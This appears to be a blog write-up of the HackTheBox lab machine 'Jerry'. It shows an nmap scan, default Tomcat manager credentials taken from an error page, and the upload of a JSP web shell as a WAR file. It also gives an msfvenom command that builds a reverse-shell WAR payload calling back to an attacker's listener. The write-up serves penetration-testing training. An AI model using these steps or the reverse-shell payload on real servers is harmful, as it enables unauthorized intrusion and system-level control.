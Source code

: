 ```yaml
---
weight: 1
title: "HackTheBox - Jerry Writeup"
date: 2022-06-04
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
description: "HacktheBox - Jerry Writeup"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["msfvenom", "jsp-reverse-shell", "jsp-webshell", "war-file", "apache-tomcat"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/2570" name="mrh4sh" picture="https://www.hackthebox.com/storage/avatars/03763e0eb6ceb271534e847fe104cef1.png" >}}

<!--more-->

## Nmap

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

### Http (Apache Tomcat)
Let's take a look at port `8080` which serve as Http.


![apache default page](apache-default-install-page.png "apache default page")

It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.


![found credentials in error page](error-page.png "found credentials in error page")

### /manager/html
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 


![upload button](upload-the-war-file-page.png "upload button")

## WebShell
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.


![convert jsp to war file](convert-jsp-file-into-war-file.png "convert jsp to war file")

If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 


![upload war webshell file](webshell-created-after-upload.png "upload war webshell file")

To spawn the shell, just click the `/webshell` path in the table. 


![whoami nt authority\system](run-the-whoami-in-the-webshell.png "whoami nt authority\system")

WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

## MSFVenom
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```

![msfvenom create war payload](created-msfvenom-payload.png "msfvenom create war payload")

The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_


![shell as nt authority\system](nc-reverse-shell-callback.png "shell as nt authority\system")